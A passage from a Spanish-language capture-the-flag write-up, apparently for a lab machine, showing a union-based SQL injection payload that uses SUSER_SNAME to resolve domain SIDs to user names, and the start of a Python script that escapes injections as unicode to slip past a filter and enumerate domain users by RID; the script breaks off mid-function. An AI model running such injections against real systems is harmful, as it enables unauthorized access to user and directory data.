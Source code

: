 ```python
❯ python3
Python 3.9.2 (default, Feb 28 2021, 17:03:44) 
[GCC 10.2.1 20210110] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> 0x01f4
500
>>> hex(500)
'0x1f4'
>>> hex(501)
'0x1f5
```

Si modificamos el rdi con el valor hexadecimal de `501`, entonces correspondera a otro usuario, en este caso `Ghest`.

```bash
> test' union select 1,(select SUSER_SNAME(0x0105000000000005150000001c00d1bcd181f1492bdfc236f5010000)),3,4,5-- -
[
    {
        "id": 1,
        "name": "MEGACORP\\Guest",
        "position": "3",
        "email": "4",
        "src": "5"
    }
]
```

Esto nos da la idea que podemos lista los usuarios del `DC` a partir de poder conmutar el `RID`, para ello en vez de hacerlo uno por uno, vamos a modificar un poco el script que ya teniamos para gestionarlo mejor.


```python
#!/usr/bin/python3

from pwn import *
import requests, time, json, signal

def def_handler(sig, frame):
    print("\n[!] Saliendo...!\n")
    sys.exit(1)

#ctrl_c
signal.signal(signal.SIGINT, def_handler)

#global_variables
main_url = "http://10.10.10.179/api/getColleagues"
sid = "0x0105000000000005150000001c00d1bcd181f1492bdfc236"

#tratamos la data
def recivesql(sqlinyection):
    sqlmodified = ""
    for character in sqlinyection:
        sqlmodified += "\\u00" + hex(ord(character))[2:]

    return sqlmodified

#enviamos la data procesada
def sendsql(sqlmodified):

    headers = {
        'Content-Type': 'application/json;charset=utf-8'
    }

```